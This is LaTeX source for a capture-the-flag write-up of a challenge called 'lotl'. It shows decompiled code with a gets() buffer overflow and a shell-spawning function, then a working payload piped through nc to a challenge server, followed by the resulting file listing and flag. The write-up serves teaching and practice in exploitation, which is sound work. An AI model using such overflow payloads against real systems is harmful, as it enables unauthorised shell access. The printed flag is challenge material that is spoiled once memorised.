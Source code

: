 \documentclass[english,a4paper,nols,noindent]{tufte-handout}
\begin{document}
\noindent Save the planet!

Well, we should then better LOTL and use what we have, right?

\verb+nc 46.101.107.117 2102+

Get a shell and read the flag.

Note: The service is restarted every hour at x:00.

Executable ``lotl'' is provided.

\hypertarget{he21.16-solution}{%
\subsection{HE21.16 Solution}\label{he21.16-solution}}

\noindent The provided executable can be analysed using Ghidra and shows a main
function with a classic buffer overflow problem from using \verb+gets+:

\begin{verbatim}
undefined8 main(void)
{
  char pwn_me [32];
  
  ignore_me_init_buffering();
  ignore_me_init_signal();
  printf("Welcome! Please give me your name!\n> ");
  gets(pwn_me);
  printf("Hi %s, nice to meet you!\n",pwn_me);
  return 0;
}
\end{verbatim} 

So we can to overflow the buffer and jump to a proper place to get us a shell.

Really interesting is the function \verb+profit+ at address \verb+0x0040086d+
\begin{verbatim}
void profit(void)
{
  system("/bin/sh");
  return;
}
\end{verbatim}

So it should be easy to construct the payload: load 32 bytes for the buffer, 8
bytes for the RBP and then 8 bytes for the RIP.  However, this does not work.
In the end, it turns out that the binary did not match the challenge and only a
padding of 32 bytes was needed:

\begin{verbatim} 
printf "AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDD\x6d\x08\x40\x00\x00\x00\x00\x00\nls -l\ncat flag\n" |
nc 46.101.107.117 2102
Welcome! Please give me your name!
> Hi AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDD@, nice to meet you!
total 36
-rwxrwxr-x 1 root root  8848 Mar  2 18:30 challenge1
-rw-rw-r-- 1 root root    40 Mar  2 18:30 flag
-rwxrwxr-x 1 root root 18744 Mar  2 18:30 ynetd
he2021{w3ll_th4t_w4s_4_s1mpl3_p4yl04d}
\end{verbatim} 
\end{document}
